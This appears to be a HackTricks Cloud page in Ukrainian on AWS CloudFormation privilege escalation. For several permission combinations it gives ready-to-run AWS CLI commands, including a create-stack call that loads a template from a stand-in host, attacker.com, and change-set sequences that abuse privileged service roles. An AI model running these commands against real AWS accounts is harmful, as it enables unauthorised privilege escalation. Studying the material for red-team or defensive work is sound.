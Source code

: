 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Для отримання додаткової інформації про cloudformation перегляньте:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Зловмисник з цими дозволами **може підвищити привілеї**, створивши **CloudFormation стек** з користувацьким шаблоном, розміщеним на їхньому сервері, щоб **виконати дії під дозволами вказаної ролі:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
На наступній сторінці ви маєте **приклад експлуатації** з додатковим дозволом **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Потенційний вплив:** Привілейоване підвищення до ролі служби cloudformation, що вказана.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

У цьому випадку ви можете **зловживати існуючим стеком cloudformation**, щоб оновити його та підвищити привілеї, як у попередньому сценарії:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Дозвіл `cloudformation:SetStackPolicy` можна використовувати, щоб **надати собі дозвіл `UpdateStack`** на стек і виконати атаку.

**Потенційний вплив:** Привілейоване підвищення до ролі служби cloudformation.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Якщо у вас є цей дозвіл, але **немає `iam:PassRole`**, ви все ще можете **оновлювати стеки** та зловживати **IAM ролями, які вже прикріплені**. Перегляньте попередній розділ для прикладу експлуатації (просто не вказуйте жодну роль в оновленні).

Дозвіл `cloudformation:SetStackPolicy` можна використовувати, щоб **надати собі дозвіл `UpdateStack`** на стек і виконати атаку.

**Потенційний вплив:** Привілейоване підвищення до ролі служби cloudformation, яка вже прикріплена.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Зловмисник з дозволами на **передачу ролі та створення та виконання ChangeSet** може **створити/оновити новий стек cloudformation і зловживати ролями служби cloudformation** так само, як з CreateStack або UpdateStack.

Наступна експлуатація є **варіацією** [**CreateStack**](./#iam-passrole-cloudformation-createstack), що використовує **дозволи ChangeSet** для створення стека.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Дозвіл `cloudformation:SetStackPolicy` можна використовувати, щоб **надати собі дозволи `ChangeSet`** над стеком і виконати атаку.

**Потенційний вплив:** Привілейоване підвищення до ролей сервісу cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Це схоже на попередній метод без передачі **IAM ролей**, тому ви можете просто **зловживати вже прикріпленими**, просто змініть параметр:
```
--change-set-type UPDATE
```
**Потенційний вплив:** Privesc до ролі служби cloudformation, яка вже прикріплена.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Зловмисник може зловживати цими дозволами для створення/оновлення StackSets, щоб зловживати довільними ролями cloudformation.

**Потенційний вплив:** Privesc до ролей служби cloudformation.

### `cloudformation:UpdateStackSet`

Зловмисник може зловживати цим дозволом без дозволу passRole для оновлення StackSets, щоб зловживати прикріпленими ролями cloudformation.

**Потенційний вплив:** Privesc до прикріплених ролей cloudformation.

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
